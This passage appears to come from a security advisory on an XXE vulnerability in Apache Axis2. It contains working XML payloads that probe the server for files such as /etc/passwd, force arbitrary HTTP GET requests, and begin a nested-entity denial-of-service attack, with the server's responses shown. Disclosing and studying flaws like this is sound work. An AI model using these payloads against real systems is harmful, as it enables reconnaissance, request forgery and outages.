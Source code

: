 ~~~ markup
<faultstring>Http binding is disabled for this service.</faultstring>
~~~

### Server file system scan and arbitrary HTTP GET request execution {#exploit-url-access}

Even when REST is disabled, the vulnerability can still be exploited to
check the existence of a particular file on the server file system.
Consider the following request (again with content type `application/xml`):

~~~ markup
<!DOCTYPE root SYSTEM "/etc/passwd">
<root/>
~~~

When sent to any valid endpoint, this triggers the following response, assuming that
Axis2 is installed on a Unix system:

~~~ markup
<faultstring>[com.ctc.wstx.exc.WstxLazyException]
Unexpected character '#' (code 35) in external DTD subset;
expected a '&lt;' to start a directive
 at [row,col,system-id]: [1,1,"file:/etc/passwd"]
 from [row,col {unknown-source}]: [1,1]</faultstring>
~~~

On a non Unix system or if the DOCTYPE declaration refers to a non existing
file, the response will be different:

~~~ markup
<faultstring>[com.ctc.wstx.exc.WstxLazyException]
(was java.io.FileNotFoundException) /non_existing_file
(No such file or directory)
 at [row,col {unknown-source}]: [1,43]</faultstring>
~~~

By inspecting the response, an attacker can easily determine whether or not
a given file exists on the file system of the server.

The same technique can also be used to trick Axis2 into executing
arbitrary HTTP GET requests (including query parameters):

~~~ markup
<!DOCTYPE root SYSTEM "http://www.google.com/search?q=test">
<root/>
~~~

### Denial of Service {#exploit-dos}

A Denial of Service attack using deeply nested entity definitions can
easily be demonstrated using the following request:

~~~ markup
<!DOCTYPE root [
    <!ENTITY x32 "foobar">
    <!ENTITY x31 "&x32;&x32;">
    <!ENTITY x30 "&x31;&x31;">
    <!ENTITY x29 "&x30;&x30;">
    <!ENTITY x28 "&x29;&x29;">
    <!ENTITY x27 "&x28;&x28;">
    <!ENTITY x26 "&x27;&x27;">
    <!ENTITY x25 "&x26;&x26;">
    <!ENTITY x24 "&x25;&x25;">
    <!ENTITY x23 "&x24;&x24;">
    <!ENTITY x22 "&x23;&x23;">
    <!ENTITY x21 "&x22;&x22;">
    <!ENTITY x20 "&x21;&x21;">
    <!ENTITY x19 "&x20;&x20;">
    <!ENTITY x18 "&x19;&x19;">
~~~

[^3]: http://localhost:8080/axis2/services/SimpleStockQuoteService